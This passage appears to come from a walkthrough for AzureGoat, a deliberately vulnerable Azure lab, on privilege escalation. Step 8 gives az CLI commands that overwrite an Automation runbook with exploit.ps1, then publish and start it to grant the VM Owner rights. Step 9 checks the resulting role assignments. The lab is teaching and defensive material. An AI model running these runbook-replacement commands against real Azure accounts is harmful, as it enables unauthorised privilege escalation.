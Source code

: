 ![](images/4_defending_privilege_escalations/23.png)

**Step 8:** Now, run the below commands to escalate the VM to the Owner.
```
az automation runbook replace-content --automation-account-name "dev-automation-account-" --resource-group <ResourceGroup Name> --name "Get-AzureVM" --content @exploit.ps1
az automation runbook publish --automation-account-name "dev-automation-account-" --resource-group <ResourceGroup Name> --name "Get-AzureVM"
az automation runbook start --automation-account-name "dev-automation-account-" --resource-group <ResourceGroup Name> --name "Get-AzureVM"
```

![](images/4_defending_privilege_escalations/24.png)

Now you will see the following output.

![](images/4_defending_privilege_escalations/25.png)

**Step 9:** Run the below command:
```
az role assignment list -g azuregoat_app
```

